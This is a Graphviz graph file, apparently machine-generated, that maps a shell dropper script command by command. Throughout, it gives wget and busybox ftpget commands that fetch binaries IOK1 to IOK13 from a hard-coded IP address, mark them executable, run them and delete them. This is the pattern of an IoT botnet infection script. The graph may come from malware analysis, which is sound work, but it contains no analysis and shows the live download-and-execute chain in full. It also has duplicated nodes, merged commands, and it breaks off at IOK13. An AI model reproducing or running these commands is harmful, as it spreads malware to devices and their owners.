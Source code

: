 digraph {
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 10 [label="||,"];
10 [label="wget http://185.145.131.236/IOK1 "];
10 -> 12 [label=";,"];
12 [label="chmod +x IOK1 "];
12 -> 48 [label=";,"];
48 [label="./IOK1 "];
48 -> 32 [label=";,"];
32 [label="rm -rf IOK1 "];
32 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 28 [label="||,"];
28 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.236 IOK1 IOK1 "];
28 -> 30 [label=";,"];
30 [label="chmod +x IOK1 ./IOK1 "];
30 -> 32 [label=";,"];
32 [label="rm -rf IOK1 "];
32 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 44 [label="||,"];
44 [label="/bin/busybox wget http://185.145.131.236/IOK1 "];
44 -> 46 [label=";,"];
46 [label="/bin/busybox chmod +x IOK1 "];
46 -> 48 [label=";,"];
48 [label="./IOK1 "];
48 -> 66 [label=";,"];
66 [label="/bin/busybox rm -rf IOK1 "];
66 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 62 [label="||,"];
62 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.236 IOK1 IOK1 "];
62 -> 64 [label=";,"];
64 [label="/bin/busybox chmod +x IOK1 ./IOK1 "];
64 -> 66 [label=";,"];
66 [label="/bin/busybox rm -rf IOK1 "];
66 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 78 [label="||,"];
78 [label="wget http://185.145.131.236/IOK2 "];
78 -> 80 [label=";,"];
80 [label="chmod +x IOK2 "];
80 -> 116 [label=";,"];
116 [label="./IOK2 "];
116 -> 100 [label=";,"];
100 [label="rm -rf IOK2 "];
100 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 96 [label="||,"];
96 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.236 IOK2 IOK2 "];
96 -> 98 [label=";,"];
98 [label="chmod +x IOK2 ./IOK2 "];
98 -> 100 [label=";,"];
100 [label="rm -rf IOK2 "];
100 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 112 [label="||,"];
112 [label="/bin/busybox wget http://185.145.131.236/IOK2 "];
112 -> 114 [label=";,"];
114 [label="/bin/busybox chmod +x IOK2 "];
114 -> 116 [label=";,"];
116 [label="./IOK2 "];
116 -> 134 [label=";,"];
134 [label="/bin/busybox rm -rf IOK2 "];
134 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 130 [label="||,"];
130 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.236 IOK2 IOK2 "];
130 -> 132 [label=";,"];
132 [label="/bin/busybox chmod +x IOK2 ./IOK2 "];
132 -> 134 [label=";,"];
134 [label="/bin/busybox rm -rf IOK2 "];
134 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 146 [label="||,"];
146 [label="wget http://185.145.131.236/IOK3 "];
146 -> 148 [label=";,"];
148 [label="chmod +x IOK3 "];
148 -> 184 [label=";,"];
184 [label="./IOK3 "];
184 -> 168 [label=";,"];
168 [label="rm -rf IOK3 "];
168 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 164 [label="||,"];
164 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.236 IOK3 IOK3 "];
164 -> 166 [label=";,"];
166 [label="chmod +x IOK3 ./IOK3 "];
166 -> 168 [label=";,"];
168 [label="rm -rf IOK3 "];
168 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 180 [label="||,"];
180 [label="/bin/busybox wget http://185.145.131.236/IOK3 "];
180 -> 182 [label=";,"];
182 [label="/bin/busybox chmod +x IOK3 "];
182 -> 184 [label=";,"];
184 [label="./IOK3 "];
184 -> 202 [label=";,"];
202 [label="/bin/busybox rm -rf IOK3 "];
202 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 198 [label="||,"];
198 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.236 IOK3 IOK3 "];
198 -> 200 [label=";,"];
200 [label="/bin/busybox chmod +x IOK3 ./IOK3 "];
200 -> 202 [label=";,"];
202 [label="/bin/busybox rm -rf IOK3 "];
202 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 214 [label="||,"];
214 [label="wget http://185.145.131.236/IOK4 "];
214 -> 216 [label=";,"];
216 [label="chmod +x IOK4 "];
216 -> 252 [label=";,"];
252 [label="./IOK4 "];
252 -> 236 [label=";,"];
236 [label="rm -rf IOK4 "];
236 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 232 [label="||,"];
232 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.236 IOK4 IOK4 "];
232 -> 234 [label=";,"];
234 [label="chmod +x IOK4 ./IOK4 "];
234 -> 236 [label=";,"];
236 [label="rm -rf IOK4 "];
236 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 248 [label="||,"];
248 [label="/bin/busybox wget http://185.145.131.236/IOK4 "];
248 -> 250 [label=";,"];
250 [label="/bin/busybox chmod +x IOK4 "];
250 -> 252 [label=";,"];
252 [label="./IOK4 "];
252 -> 270 [label=";,"];
270 [label="/bin/busybox rm -rf IOK4 "];
270 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 266 [label="||,"];
266 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.236 IOK4 IOK4 "];
266 -> 268 [label=";,"];
268 [label="/bin/busybox chmod +x IOK4 ./IOK4 "];
268 -> 270 [label=";,"];
270 [label="/bin/busybox rm -rf IOK4 "];
270 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 282 [label="||,"];
282 [label="wget http://185.145.131.236/IOK5 "];
282 -> 284 [label=";,"];
284 [label="chmod +x IOK5 "];
284 -> 320 [label=";,"];
320 [label="./IOK5 "];
320 -> 304 [label=";,"];
304 [label="rm -rf IOK5 "];
304 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 300 [label="||,"];
300 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.236 IOK5 IOK5 "];
300 -> 302 [label=";,"];
302 [label="chmod +x IOK5 ./IOK5 "];
302 -> 304 [label=";,"];
304 [label="rm -rf IOK5 "];
304 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 316 [label="||,"];
316 [label="/bin/busybox wget http://185.145.131.236/IOK5 "];
316 -> 318 [label=";,"];
318 [label="/bin/busybox chmod +x IOK5 "];
318 -> 320 [label=";,"];
320 [label="./IOK5 "];
320 -> 338 [label=";,"];
338 [label="/bin/busybox rm -rf IOK5 "];
338 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 334 [label="||,"];
334 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.236 IOK5 IOK5 "];
334 -> 336 [label=";,"];
336 [label="/bin/busybox chmod +x IOK5 ./IOK5 "];
336 -> 338 [label=";,"];
338 [label="/bin/busybox rm -rf IOK5 "];
338 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 350 [label="||,"];
350 [label="wget http://185.145.131.236/IOK6 "];
350 -> 352 [label=";,"];
352 [label="chmod +x IOK6 "];
352 -> 388 [label=";,"];
388 [label="./IOK6 "];
388 -> 372 [label=";,"];
372 [label="rm -rf IOK6 "];
372 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 368 [label="||,"];
368 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.236 IOK6 IOK6 "];
368 -> 370 [label=";,"];
370 [label="chmod +x IOK6 ./IOK6 "];
370 -> 372 [label=";,"];
372 [label="rm -rf IOK6 "];
372 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 384 [label="||,"];
384 [label="/bin/busybox wget http://185.145.131.236/IOK6 "];
384 -> 386 [label=";,"];
386 [label="/bin/busybox chmod +x IOK6 "];
386 -> 388 [label=";,"];
388 [label="./IOK6 "];
388 -> 406 [label=";,"];
406 [label="/bin/busybox rm -rf IOK6 "];
406 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 402 [label="||,"];
402 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.236 IOK6 IOK6 "];
402 -> 404 [label=";,"];
404 [label="/bin/busybox chmod +x IOK6 ./IOK6 "];
404 -> 406 [label=";,"];
406 [label="/bin/busybox rm -rf IOK6 "];
406 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 418 [label="||,"];
418 [label="wget http://185.145.131.236/IOK7 "];
418 -> 420 [label=";,"];
420 [label="chmod +x IOK7 "];
420 -> 456 [label=";,"];
456 [label="./IOK7 "];
456 -> 440 [label=";,"];
440 [label="rm -rf IOK7 "];
440 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 436 [label="||,"];
436 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.236 IOK7 IOK7 "];
436 -> 438 [label=";,"];
438 [label="chmod +x IOK7 ./IOK7 "];
438 -> 440 [label=";,"];
440 [label="rm -rf IOK7 "];
440 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 452 [label="||,"];
452 [label="/bin/busybox wget http://185.145.131.236/IOK7 "];
452 -> 454 [label=";,"];
454 [label="/bin/busybox chmod +x IOK7 "];
454 -> 456 [label=";,"];
456 [label="./IOK7 "];
456 -> 474 [label=";,"];
474 [label="/bin/busybox rm -rf IOK7 "];
474 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 470 [label="||,"];
470 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.236 IOK7 IOK7 "];
470 -> 472 [label=";,"];
472 [label="/bin/busybox chmod +x IOK7 ./IOK7 "];
472 -> 474 [label=";,"];
474 [label="/bin/busybox rm -rf IOK7 "];
474 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 486 [label="||,"];
486 [label="wget http://185.145.131.236/IOK8 "];
486 -> 488 [label=";,"];
488 [label="chmod +x IOK8 "];
488 -> 524 [label=";,"];
524 [label="./IOK8 "];
524 -> 508 [label=";,"];
508 [label="rm -rf IOK8 "];
508 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 504 [label="||,"];
504 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.236 IOK8 IOK8 "];
504 -> 506 [label=";,"];
506 [label="chmod +x IOK8 ./IOK8 "];
506 -> 508 [label=";,"];
508 [label="rm -rf IOK8 "];
508 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 520 [label="||,"];
520 [label="/bin/busybox wget http://185.145.131.236/IOK8 "];
520 -> 522 [label=";,"];
522 [label="/bin/busybox chmod +x IOK8 "];
522 -> 524 [label=";,"];
524 [label="./IOK8 "];
524 -> 542 [label=";,"];
542 [label="/bin/busybox rm -rf IOK8 "];
542 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 538 [label="||,"];
538 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.236 IOK8 IOK8 "];
538 -> 540 [label=";,"];
540 [label="/bin/busybox chmod +x IOK8 ./IOK8 "];
540 -> 542 [label=";,"];
542 [label="/bin/busybox rm -rf IOK8 "];
542 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 554 [label="||,"];
554 [label="wget http://185.145.131.236/IOK9 "];
554 -> 556 [label=";,"];
556 [label="chmod +x IOK9 "];
556 -> 592 [label=";,"];
592 [label="./IOK9 "];
592 -> 576 [label=";,"];
576 [label="rm -rf IOK9 "];
576 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 572 [label="||,"];
572 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.236 IOK9 IOK9 "];
572 -> 574 [label=";,"];
574 [label="chmod +x IOK9 ./IOK9 "];
574 -> 576 [label=";,"];
576 [label="rm -rf IOK9 "];
576 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 588 [label="||,"];
588 [label="/bin/busybox wget http://185.145.131.236/IOK9 "];
588 -> 590 [label=";,"];
590 [label="/bin/busybox chmod +x IOK9 "];
590 -> 592 [label=";,"];
592 [label="./IOK9 "];
592 -> 610 [label=";,"];
610 [label="/bin/busybox rm -rf IOK9 "];
610 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 606 [label="||,"];
606 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.236 IOK9 IOK9 "];
606 -> 608 [label=";,"];
608 [label="/bin/busybox chmod +x IOK9 ./IOK9 "];
608 -> 610 [label=";,"];
610 [label="/bin/busybox rm -rf IOK9 "];
610 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 622 [label="||,"];
622 [label="wget http://185.145.131.236/IOK10 "];
622 -> 624 [label=";,"];
624 [label="chmod +x IOK10 "];
624 -> 660 [label=";,"];
660 [label="./IOK10 "];
660 -> 644 [label=";,"];
644 [label="rm -rf IOK10 "];
644 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 640 [label="||,"];
640 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.236 IOK10 IOK10 "];
640 -> 642 [label=";,"];
642 [label="chmod +x IOK10 ./IOK10 "];
642 -> 644 [label=";,"];
644 [label="rm -rf IOK10 "];
644 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 656 [label="||,"];
656 [label="/bin/busybox wget http://185.145.131.236/IOK10 "];
656 -> 658 [label=";,"];
658 [label="/bin/busybox chmod +x IOK10 "];
658 -> 660 [label=";,"];
660 [label="./IOK10 "];
660 -> 678 [label=";,"];
678 [label="/bin/busybox rm -rf IOK10 "];
678 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 674 [label="||,"];
674 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.236 IOK10 IOK10 "];
674 -> 676 [label=";,"];
676 [label="/bin/busybox chmod +x IOK10 ./IOK10 "];
676 -> 678 [label=";,"];
678 [label="/bin/busybox rm -rf IOK10 "];
678 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 690 [label="||,"];
690 [label="wget http://185.145.131.236/IOK11 "];
690 -> 692 [label=";,"];
692 [label="chmod +x IOK11 "];
692 -> 728 [label=";,"];
728 [label="./IOK11 "];
728 -> 712 [label=";,"];
712 [label="rm -rf IOK11 "];
712 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 708 [label="||,"];
708 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.236 IOK11 IOK11 "];
708 -> 710 [label=";,"];
710 [label="chmod +x IOK11 ./IOK11 "];
710 -> 712 [label=";,"];
712 [label="rm -rf IOK11 "];
712 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 724 [label="||,"];
724 [label="/bin/busybox wget http://185.145.131.236/IOK11 "];
724 -> 726 [label=";,"];
726 [label="/bin/busybox chmod +x IOK11 "];
726 -> 728 [label=";,"];
728 [label="./IOK11 "];
728 -> 746 [label=";,"];
746 [label="/bin/busybox rm -rf IOK11 "];
746 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 742 [label="||,"];
742 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.236 IOK11 IOK11 "];
742 -> 744 [label=";,"];
744 [label="/bin/busybox chmod +x IOK11 ./IOK11 "];
744 -> 746 [label=";,"];
746 [label="/bin/busybox rm -rf IOK11 "];
746 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 758 [label="||,"];
758 [label="wget http://185.145.131.236/IOK12 "];
758 -> 760 [label=";,"];
760 [label="chmod +x IOK12 "];
760 -> 796 [label=";,"];
796 [label="./IOK12 "];
796 -> 780 [label=";,"];
780 [label="rm -rf IOK12 "];
780 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 776 [label="||,"];
776 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.236 IOK12 IOK12 "];
776 -> 778 [label=";,"];
778 [label="chmod +x IOK12 ./IOK12 "];
778 -> 780 [label=";,"];
780 [label="rm -rf IOK12 "];
780 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 792 [label="||,"];
792 [label="/bin/busybox wget http://185.145.131.236/IOK12 "];
792 -> 794 [label=";,"];
794 [label="/bin/busybox chmod +x IOK12 "];
794 -> 796 [label=";,"];
796 [label="./IOK12 "];
796 -> 814 [label=";,"];
814 [label="/bin/busybox rm -rf IOK12 "];
814 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 810 [label="||,"];
810 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.236 IOK12 IOK12 "];
810 -> 812 [label=";,"];
812 [label="/bin/busybox chmod +x IOK12 ./IOK12 "];
812 -> 814 [label=";,"];
814 [label="/bin/busybox rm -rf IOK12 "];
814 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 826 [label="||,"];
826 [label="wget http://185.145.131.236/IOK13 "];
826 -> 828 [label=";,"];
828 [label="chmod +x IOK13 "];
828 -> 864 [label=";,"];
864 [label="./IOK13 "];
864 -> 848 [label=";,"];
848 [label="rm -rf IOK13 "];
848 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 844 [label="||,"];
844 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.236 IOK13 IOK13 "];
844 -> 846 [label=";,"];
846 [label="chmod +x IOK13 ./IOK13 "];
846 -> 848 [label=";,"];
